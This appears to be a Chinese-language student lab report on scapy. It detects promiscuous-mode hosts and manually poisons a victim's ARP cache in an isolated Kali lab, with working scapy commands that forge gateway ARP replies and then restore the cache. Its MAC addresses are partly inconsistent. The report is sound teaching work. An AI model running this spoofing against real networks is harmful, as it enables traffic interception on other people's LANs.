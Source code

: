 # 第四章实验

## 网络拓扑

- 攻击者主机(Kali_Attacker)
  - 08:00:27:83:85:55 /eth0
  - 172.16.111.136
- 受害者主机(kali)
  - 08:00:27:c5:74:a5 /eth0
  - 172.16.111.141
- 网关(Gateway)
  - 08:00:27:83:85:55 /enp0s9
  - 172.16.111.1

## 实验准备

### 安装scapy
在攻击者主机上提前安装好scapy
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip
# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```
![](img/scapy-install.png)


## 实验一：检测局域网中的异常终端
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
![](img/kali-eth0.png)


```
# 在攻击者主机上开启 scapy
scapy
```
![](img/kali-attacker-scapy.png)

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.141")
```
![](img/pkt.png)

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```
![](img/promisc-on.png)


```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.141")
```
![](img/ptk-2.png)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```
![](img/promisc-off.png)

经过查阅资料，可知promiscping命令发送who-has请求，而在此实验中，可以看出在开启混杂模式后，靶机才能接受数据包

```promiscping : Send ARP who-has requests to determine which hosts are in promiscuous mode为查看混杂模式主机而发送ARP请求```

## 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的```scapy```交互式终端完成

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](img/arpbroadcast.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

#用gw_mac命令获取网关MAC地址
```
![](img/gw_mac.png)

```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.141
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 需要加Ethernet帧头才可以“毒化”
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.141", hwdst="08:00:27:b8:8a:ab")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](img/poison.png)


```
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

ip neigh
```
![](img/kali-ipneigh.png)



回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:83:85:55", pdst="172.16.111.141", hwdst="08:00:27:c5:74:a5")
sendp(restorepkt1, count=100, inter=0.2)
```
![](img/restorepkt.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![](img/kali-ping-gateway.png)

## 参考资料
[Scapy常用操作和命令](https://blog.csdn.net/qwertyupoiuytr/article/details/54670641)

[scapy:网络数据包操作](https://zhuanlan.zhihu.com/p/369369601)

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/README.md)

## 补充 FAQ
[解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)
```
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```
```
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```
### scapy 的交互式控制台在自动补全时触发太多 DeprecationWarning 的解决办法
进入 scapy 交互式控制后输入以下代码并执行。
```
import warnings
warnings.filterwarnings('ignore')
```
### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化
根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：
```
-p --no-promiscuous-mode Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, -p' cannot be used as an abbreviation forether host {local-hw-addr} or ether broadcast'.
```

使用 -p 参数可以禁止使用「混杂」模式嗅探网卡。
